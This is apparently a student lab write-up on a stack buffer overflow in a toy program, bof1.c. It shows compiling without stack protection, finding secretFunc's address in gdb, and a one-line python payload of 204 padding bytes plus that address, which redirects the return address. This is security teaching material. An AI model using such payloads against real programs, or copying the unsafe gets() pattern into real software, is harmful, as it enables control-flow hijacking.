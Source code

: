 # Understand bof1.c 
In this attack, we will try to replace the return address with another function's return address (redirect control) by using python!
## Stackframe

## Vulnerbility
At "gets(array)"; function, we see that hackers can exploit the stackframe by adding more bytes in python in order to redirect the return address! 
# Start attacking bof1.c 
## Compiling the file without stack restriction
`gcc -g bof1.c -o bof1.out -fno-stack-protector -mpreferred-stack-boundary=2`  
![alt text](image-1.png)
## Run gdb for futher examination
`gdb bof1.out`  
![alt text](image-2.png)
## Try to see each func in machine code!
With **vuln**: `disas vuln` 
![alt text](image-3.png)  
With **secretFunc**: `disas secretFunc`  
![alt text](image-4.png)  
=> We see that the address of  **secretFunc** is `0x0804846b`. So now, we are going to replace the **vuln's return address** with the **secretFunc's return address**.
## Calculate the total bytes to attack
As can be seen from the stackframe, we need in sum of 204 bytes of a and the last will be the return address of **secretFunc**  
Now we use `q` to exit and type `echo $(python -c "print('a'*204+'\x6b\x84\x04\x08')") | ./bof1.out 123` to see the result!  
![alt text](image-5.png)